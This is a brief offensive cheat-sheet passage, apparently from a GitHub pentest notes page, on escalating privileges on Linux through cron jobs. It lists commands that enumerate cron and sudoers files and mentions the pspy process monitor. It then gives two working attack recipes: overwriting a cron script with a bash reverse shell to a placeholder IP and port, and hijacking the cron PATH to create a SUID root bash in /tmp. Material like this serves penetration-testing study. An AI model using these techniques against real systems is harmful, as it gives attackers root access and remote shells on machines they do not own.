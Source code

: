 ```powershell
/etc/cron.monthly
/etc/cron.weekly
/etc/sudoers
/etc/exports
/etc/anacrontab
/var/spool/cron
/var/spool/cron/crontabs/root

crontab -l
ls -alh /var/spool/cron;
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny*
```

You can use [pspy](https://github.com/DominicBreuker/pspy) to detect a CRON job.

```powershell
# print both commands and file system events and scan procfs every 1000 ms (=1sec)
./pspy64 -pf -i 1000 
```
####Cron job Bash exploit
Overwrite the Bash script with the following if you have write permissions:
```bash
#!/bin/bash		
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1  # amend <IP> and <PORT>
```
Setup a Netcat listener and wait for the cron job to execute the script.

####Cron job PATH environment variable exploit
Run lse.sh and check for “Can we write to any paths present in cron jobs”.
Create the following script matching the name of the cron job in /tmp:
```bash
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
```

Make sure the script is executable:
```bash
chmod +x <CRON-SCRIPT>.sh
```
Wait for the cron job to run and then execute the newly created SUID script in /tmp:
```bash
/tmp/rootbash
```
You will now have a root shell.

Refer: 
[linux-privilege-escalation-by-exploiting-cron-jobs](https://www.hackingarticles.in/linux-privilege-escalation-by-exploiting-cron-jobs/)
[https://materials.rangeforce.com/tutorial/2020/04/17/Cron-Privilege-Escalation/](https://materials.rangeforce.com/tutorial/2020/04/17/Cron-Privilege-Escalation/)
